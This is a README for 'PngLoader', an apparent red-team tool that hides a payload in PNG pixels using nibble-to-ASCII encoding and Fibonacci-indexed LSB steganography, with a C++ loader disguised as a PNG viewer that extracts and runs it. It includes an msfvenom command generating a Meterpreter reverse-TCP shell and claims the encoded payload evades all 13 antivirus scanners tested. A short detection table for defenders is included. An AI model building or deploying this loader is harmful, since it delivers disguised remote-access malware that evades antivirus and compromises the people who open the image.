



# PngLoader — Steganographic Payload Research

> **Disclaimer:** This project is for **educational and authorized security research only** — penetration testing, CTF competitions, red-team exercises, and academic study. Do **not** use against systems without explicit written authorization.

---

## Overview

PngLoader hides arbitrary data inside PNG images using two layers:

1. **Nibble-to-ASCII encoding** — binary → printable ASCII characters
2. **Fibonacci steganography** — encoded data → scattered pixels in a PNG
3. **Loader** — a Windows "PNG viewer" that extracts and runs the hidden data

---

## Quick Start

```bash
# 1. Generate raw test data
msfvenom -p  windows/x64/meterpreter/reverse_tcp   LHOST=<> LPORT=<>  -f raw -o payload.bin

# 2. Encode binary → ASCII
python3 0.Scripts/TransformRawToEncode.py payload.bin encoded.txt

# 3. Embed into a cover image
python3 0.Scripts/HideEncodeToPicture.py embed 2.Payloads/clean.png encoded.txt -o stego.png

# 4. Verify extraction works
python3 0.Scripts/HideEncodeToPicture.py extract stego.png --hex

# 5. Check image capacity
python3 0.Scripts/HideEncodeToPicture.py capacity 2.Payloads/clean.png
```

---

## PoC Demo

<!-- Replace with your recorded GIF -->


---

## Project Structure

```
PngLoader/
├── 0.Scripts/
│   ├── TransformRawToEncode.py      # Nibble-to-ASCII encoder/decoder
│   └── HideEncodeToPicture.py       # Fibonacci steganography (embed/extract)
├── 1.Loader/
│   ├── loader_png.cpp               # PNG viewer + steganography extractor
│   ├── loader.cpp                   # Alternate loader (inline buffer)
│   ├── Utils.cpp / Utils.h          # ASCII → binary decoder
│   ├── VirtualBuffer.h/.cpp         # RAII VirtualAlloc wrapper
│   ├── Hearders.h                   # Shared Windows includes
│   └── Loader_png.vcxproj           # Visual Studio project
├── 2.Payloads/
│   └── clean.png                    # Sample cover image
└── readme.md
```

---

## How It Works

### Stage 1 — Nibble-to-ASCII Encoding

Each byte is split into two 4-bit nibbles. Each nibble is mapped to a printable ASCII character by adding a **random base** (48, 64, or 96):

```
Byte 0xFC → high nibble 0xF, low nibble 0xC

High: 48+15=63 '?'  |  64+15=79 'O'  |  96+15=111 'o'
Low:  48+12=60 '<'  |  64+12=76 'L'  |  96+12=108 'l'
```

**Decoding** uses the modulo-16 property — all three bases are multiples of 16:

```
original_nibble = encoded_char % 16
byte = (char1 % 16) << 4 | (char2 % 16)
```

The random base selection means the **same input produces different output each time**, but decoding is always deterministic.

| Base | Range          | Characters             |
|------|----------------|------------------------|
| 48   | 48–63          | `0123456789:;<=>?`     |
| 64   | 64–79          | `@ABCDEFGHIJKLMNO`     |
| 96   | 96–111         | `` `abcdefghijklmno``  |

### Stage 2 — Fibonacci Steganography

Payload bytes are placed at pixel indices following the **Fibonacci sequence** (1, 2, 3, 5, 8, 13, 21, …) on the flattened pixel array. This spreads modifications across the image instead of clustering them.

**Bit packing** — each byte is split 3/3/2 across RGB LSBs:

```
R: bits 7–5  (3 LSBs)
G: bits 4–2  (3 LSBs)
B: bits 1–0  (2 LSBs)
```

**Wrapping** — when Fibonacci indices exceed the pixel count, they wrap via modulo. Collisions are resolved by linear probing. A `0x00` terminator marks end-of-data.

| Image Size | Pixels    | Clean Capacity |
|------------|-----------|----------------|
| 640×480    | 307,200   | ~27 bytes      |
| 1920×1080  | 2,073,600 | ~31 bytes      |
| 4000×3000  | 12M       | ~35 bytes      |

With wrapping enabled, max capacity = `total_pixels − 1`.

### Stage 3 — Loader

The C++ loader (`loader_png.cpp`) acts as a legitimate PNG viewer:

1. **Displays** the image normally using GDI+
2. **Extracts** hidden bytes from Fibonacci pixel positions using WIC (RGB24)
3. **Decodes** ASCII → binary via `UtilDecryptFileQuoted()` (mod-16 reversal)

---

## Alternative Positioning Algorithms

The Fibonacci sequence is just one approach. Other pixel-selection strategies offer different capacity/security trade-offs:

| Algorithm | Clean Capacity (1080p) | Shared Key | Spread | Cost |
|-----------|----------------------|------------|--------|------|
| **Fibonacci** (implemented) | ~31 bytes | No | Exponential gaps | Minimal |
| **Prime-Index** | ~150K bytes | No | `n·ln(n)` gaps | Moderate |
| **LFSR** | ~2M bytes | Yes (seed) | Pseudo-random | Minimal |
| **Keyed Permutation** | ~2M bytes | Yes (key) | Cryptographic | High |
| **Hilbert Curve** | Stride-dependent | No | Spatially uniform | Moderate |
| **Golden Ratio (Weyl)** | ~2M bytes | No | Low-discrepancy | Minimal |

<details>
<summary>Details on each algorithm</summary>

**Prime-Index** — Pixel indices are prime numbers (2, 3, 5, 7, 11…). Primes grow as `n·ln(n)`, giving much higher clean capacity than Fibonacci.

**LFSR** — A maximal-length Linear Feedback Shift Register produces a pseudo-random permutation. The seed acts as a shared secret. Zero collisions for the full period.

**Keyed Permutation (Fisher-Yates)** — A CSPRNG-seeded shuffle of all pixel indices. Positions are indistinguishable from random without the key.

**Hilbert Curve** — Walk pixels along a space-filling curve with a stride. Distributes changes evenly across the 2D image area.

**Golden Ratio (Weyl Sequence)** — `pos(n) = floor(n × φ × total) mod total`. Produces the most uniform 1D distribution possible. Trivial to compute.

</details>

---

## Scan Results

**Raw payload** — 7/13 scanners detect it:



**After encoding** — 0/13 scanners detect it:



---

## Detection Guidance

For **blue-team / defenders**:

| Layer | Indicator |
|-------|-----------|
| **Static** | Imports: `VirtualAllocEx`, `WriteProcessMemory`, `SetThreadContext` |
| **Image** | Chi-squared steganalysis on LSB planes detects modifications |
| **Behavioral** | Suspended process creation + remote thread injection (Sysmon EID 1+8) |
| **Encoding** | Characters exclusively from three 16-char ASCII ranges |

---

## Build & Dependencies

**Python:**
```bash
pip install numpy Pillow
```

**C++ Loader:**
- Visual Studio 2019+ with C++ Desktop workload
- Windows 10+ SDK
- Open `1.Loader/Loader_png.vcxproj` → Build Release x64


---

## References

- [LSB Steganography](https://en.wikipedia.org/wiki/Steganography#Digital_steganography)
- [Fibonacci Sequence](https://en.wikipedia.org/wiki/Fibonacci_sequence)
- [Windows Imaging Component](https://learn.microsoft.com/en-us/windows/win32/wic/)

---

## License

Educational and authorized security research only. See disclaimer above.
